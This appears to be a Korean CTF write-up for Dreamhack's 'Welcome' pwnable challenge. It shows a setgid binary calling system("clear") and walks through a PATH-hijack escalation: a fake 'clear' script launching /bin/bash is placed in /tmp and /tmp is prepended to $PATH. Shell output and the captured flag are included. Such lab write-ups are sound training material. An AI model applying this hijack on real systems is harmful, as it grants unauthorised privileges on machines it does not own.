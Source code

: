```yaml
---
title: "[Dreamhack CTF Season 2 #11] Welcome writeup"
date: 2023-01-29 21:56:00 +0900
categories: [CTF, PWNABLE]
tags: [ctf]
author: R99bbit
---
```


chal 바이너리의 내용은 아래와 같다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __asm { endbr64 }
  sub_1080(1001LL, 1001LL, 1001LL);
  sub_1090("clear");
  sub_1070("Tada~!");
  return 0;
}
```

바이너리를 실행하면 clear를 실행하고 Tada~ 문자열을 출력한 뒤 종료한다. 이제 remote에 접속해보자

```plaintext
pwn@localhost:~$ id
uid=1000(pwn) gid=1000(pwn) groups=1000(pwn)
pwn@localhost:~$ ls -al
total 48
drwxr-x--- 1 pwn  pwn    4096 Dec  7 09:06 .
drwxr-xr-x 1 root root   4096 Dec  5 04:32 ..
-rw-r--r-- 1 pwn  pwn     220 Dec  5 04:32 .bash_logout
-rw-r--r-- 1 pwn  pwn    3771 Dec  5 04:32 .bashrc
drwx------ 2 pwn  pwn    4096 Dec  7 09:06 .cache
-rw-r--r-- 1 pwn  pwn     807 Dec  5 04:32 .profile
-rwxr-sr-x 1 root pwned 16048 Dec  5 04:32 chal
-rw-r-S--- 1 root pwned    69 Dec  5 04:32 flag
pwn@localhost:~$
```

flag에 read가 막혀있으나, `chal` 에 setuid가 걸려있다. 이를 통해 chal이 하는 행위를 조작해야 하는 것을 알 수 있다.

앞서 바이너리를 본대로 chal은 `system("clear")` 와 같이 실행하므로 bash의 환경변수($PATH)의 영향을 받는다.

그러므로 임의 경로에 bash를 실행해주는 명령을 clear라는 이름으로 저장하고, 해당 경로를 환경변수에 추가해주면 플래그를 읽을 수 있다.

```plaintext
pwn@localhost:~$ ./flag
-bash: ./flag: Permission denied
pwn@localhost:~$
```

```plaintext
pwn@localhost:~$ cd /tmp/
pwn@localhost:/tmp$ echo "/bin/bash" > clear
pwn@localhost:/tmp$ chmod 777 clear
pwn@localhost:/tmp$ cat clear
/bin/bash
pwn@localhost:/tmp$
```

```plaintext
pwn@localhost:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
pwn@localhost:/tmp$ export PATH=/tmp:$PATH
pwn@localhost:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
pwn@localhost:/tmp$
```

```plaintext
pwn@localhost:/tmp$ cd ~
pwn@localhost:~$ ./chal
pwn@localhost:~$ id
uid=1000(pwn) gid=1001(pwned) groups=1001(pwned),1000(pwn)
pwn@localhost:~$ cat flag
DH{e47d874ddc629f916d3d5ef6f0d0de90c7b151f9d7010325d051c811382b489f}
pwn@localhost:~$
```